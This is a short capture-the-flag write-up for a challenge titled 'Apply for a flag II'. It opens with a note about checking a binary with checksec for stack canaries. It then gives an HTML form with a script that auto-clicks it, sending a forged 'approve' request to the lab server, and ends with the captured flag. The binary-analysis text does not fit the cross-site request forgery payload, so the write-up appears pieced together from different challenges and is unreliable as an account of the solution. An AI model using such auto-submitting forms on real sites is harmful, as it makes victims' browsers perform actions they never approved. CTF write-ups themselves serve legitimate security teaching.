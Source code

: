 # Optional CTF - Apply for a flag II

- We started this challenge by checking what were the configurations of the _program_ file (using the _checksec_ function). We can see in the image below that this file is protected with canary's. So, writing in the stack would be a tough task.

<img src="CTFs/Opcionals/Img/2-Final_Format/1.checksec.png" alt="file print - result (flag)" width="70%"/><br/>

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/71b93db6ec908d8868bed4aba06b5977fc8aaaa8/approve" role="form">     
    <div class="submit">         
        <input type="submit" id="giveflag" value="Give the flag">    
    </div> 
</form>  

<script type="text/javascript"> 	
    document.querySelector('#giveflag').click(); 
</script>
``` 

### Flag

`flag{4c8515b3a115ecf15875944a6c5738bd}`
